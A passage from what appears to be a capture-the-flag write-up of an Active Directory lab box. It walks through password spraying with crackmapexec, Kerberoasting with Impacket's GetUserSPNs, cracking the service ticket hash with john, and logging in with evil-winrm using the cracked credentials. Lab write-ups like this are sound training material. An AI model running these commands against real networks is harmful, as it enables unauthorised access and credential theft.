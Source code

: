 &#x20;We now have valid credentials: `t-skid:tj072889*`

#### Initial Access

Since Win-RM (5985) is open, we tried logging in with Evil-WinRM, wmiexec, smbexec, etc.., but it did'nt work.

We can use "crackmapexec" to enumerate other users that could be using same password as "t-skid" user.

{% code overflow="wrap" lineNumbers="true" %}
```bash
crackmapexec smb 10.10.27.191 vulnnet-rst.local/ -u users.txt -p password.txt --shares
# no other user is using same password, so dead end.
# we could use the t-skid creds to enumerate the SMB shares also. But before that, lets do kerberoasting attack.
```
{% endcode %}

### Kerberoasting <a href="#5308" id="5308"></a>

Now that we have a set of standard user credentials, we can start looking for supported **Service Principal Name’s (SPN’s)** and get **Ticket Granting Service (TGS)** for the SPN using “**GetUserSPNs**” tool from Impacket.

{% code overflow="wrap" lineNumbers="true" %}
```bash
GetUserSPNs.py 'vulnnet-rst.local/t-skid:tj072889*' -dc-ip 10.10.27.191 -request

# We are able to identify a service called enterprise-core-vn. Further, we have a TGS ticket that contains its password hash. We can crack this too.
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
# cracked results.
ry=ibfkfv,s6h,

# We now have the password for a service account in the AD domain. Let’s again try to use evil-winrm to log in. This time it works! We got access to the system.
```
{% endcode %}

Logging in with Evil-WinRM

`evil-winrm -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' -i 10.10.68.222 -N` - from here we cat the user flag.

<figure><img src=".gitbook/assets/image (69).png" alt=""><figcaption><p>user flag</p></figcaption></figure>
